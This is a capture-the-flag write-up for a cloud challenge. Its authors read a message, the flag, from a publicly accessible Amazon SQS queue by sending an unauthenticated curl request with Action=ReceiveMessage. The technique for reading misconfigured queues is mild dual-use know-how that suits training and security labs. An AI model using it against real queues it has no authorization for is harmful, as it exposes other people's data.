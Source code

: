 
# Cant stop me now

 * Category: Cloud
 * Solved by the JCTF Team

## Description

> Frankly this challenge is impossible, give up now.
> 
> If you really insists, take this:
> 
> https://sqs.il-central-1.amazonaws.com/447694922079/production-queue

## Solution

We visit the attached link and get the following response:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/cant_stop_me_now]
└─$ curl https://sqs.il-central-1.amazonaws.com/447694922079/production-queue
<UnknownOperationException/>
```

Searching Google for `UnknownOperationException`, the first result is 
[this StackOverflow question](https://stackoverflow.com/questions/29587969/unknownoperationexception-is-always-returned-by-amazon-sqs).

The answer is:

> This is not POST request. It is GET. 
> 
> http://sqs.us-east-1.amazonaws.com/123456789012/testQueue/
> ?Action=ReceiveMessage
> &WaitTimeSeconds=10
> &MaxNumberOfMessages=5
> &VisibilityTimeout=15
> &AttributeName=All;
> &Version=2012-11-05
> &Expires=2013-10-25T22%3A52%3A43PST
> &AUTHPARAMS
> 
> I was not mentioning the request parameters so not getting the result. That was the issue.

The error says "Unknown Operation", let's try adding the `Action`?

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/cant_stop_me_now]
└─$ curl -X POST "https://sqs.il-central-1.amazonaws.com/447694922079/production-queue?Action=ReceiveMessage"
<?xml version="1.0"?><ReceiveMessageResponse xmlns="http://queue.amazonaws.com/doc/2012-11-05/"><ReceiveMessageResult><Message><MessageId>ed400300-c26e-46a5-898f-6dc9ae53f779</MessageId><ReceiptHandle>AQEB3vm6hP/PU+qCzQkNzqtEbtIlJridBzJ/k4Sd5ykeGmt5YTpAwKoyhxDGxeefPpPOmcJUJm/DZ9MzhR8BffHqbbJpvXIUbMXGmdVxCxJDS+L293y0zFZcXnYKH2VeF8B54+wceQx4zHdZ0bb5OqcleGq6+YqxhS6MxzVKd181FpuSAEvuwu99dLZZOa/rjvfCPH+Wm1ofryx+2KXEByKBRHXQ8opBa8P2SsH10X6j+ECZgHSsKT7HtfW2mMzbyTML4AOVJvGnlM+OHZUgbd28+oKEwbooOSzUH5jPa+iZx5NpvW1Oa2grR+G94aw6cvveJwXWnzqI+8kXqB0vvyE5BJRfVR1JZuGhNCVbnC2WVx1sJG72l/9k089FYD5d57djp3kBy08RsIqyaSzYxYO8gw==</ReceiptHandle><MD5OfBody>e6eb62e9f83d493cd95a9278ffdb6128</MD5OfBody><Body>AppSec-IL{mama_look_at_me_i_can_read}</Body></Message></ReceiveMessageResult><ResponseMetadata><RequestId>d0a23b86-a511-525f-b685-5b3d692acc10</RequestId></ResponseMetadata></ReceiveMessageResponse>
```

The flag: `AppSec-IL{mama_look_at_me_i_can_read}`